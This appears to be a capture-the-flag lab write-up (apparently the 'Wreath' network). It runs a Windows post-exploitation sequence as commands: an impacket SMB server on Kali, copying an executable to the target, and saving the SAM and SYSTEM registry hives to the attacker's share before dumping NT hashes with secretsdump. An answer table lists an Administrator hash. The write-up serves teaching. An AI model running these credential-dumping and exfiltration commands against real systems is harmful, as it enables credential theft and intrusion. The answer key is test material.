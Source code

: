 > setup a temporary SMB server on kali
```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword

```
> connecting the SMB server from the target
```
net use \\10.50.102.109\share /USER:user s3cureP@ssword
```
> copying the file to the target 
```
copy \\10.50.102.109\share\wrapper_1234.exe %TEMP%\wrapper_1234.exe
```




## AV Evasion : Exfiltration Techniques & Post Exploitation

> Save the password hashes to SAM hive
```
reg.exe save HKLM\SAM sam.bak
```
> we can save the password hashes to our local machine using the priviously running SMB server in our local machine
```
reg.exe save HKLM\SAM \\10.50.102.109\share\wreath_pc-sam.bak
```

> dumping the system hive to our local machine
```
reg.exe save HKLM\SYSTEM \\10.50.102.109\share\wreth_pc-system.bak
```

> script to show the hashes in kali linux
```
python3 /opt/impacket/examples/secretsdump.py -sam wreath_pc-sam.bak -system wreath_pc-system.bak LOCAL
```
> save the hashes into a file called `wreath_pc-hash.txt` and run the following command to see the hashes
```
cat wreath_pc-hash.txt| cut -d ":" -f 1,4

```


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay) ? | Nay |
| For What reason is HTTPS preferred over HTTP during exfiltration ? | Encryption |
| What is the Administrator NT hash for this target ? | a05c3c807ceeb48c47252568da284cd2 |







#        THE END 

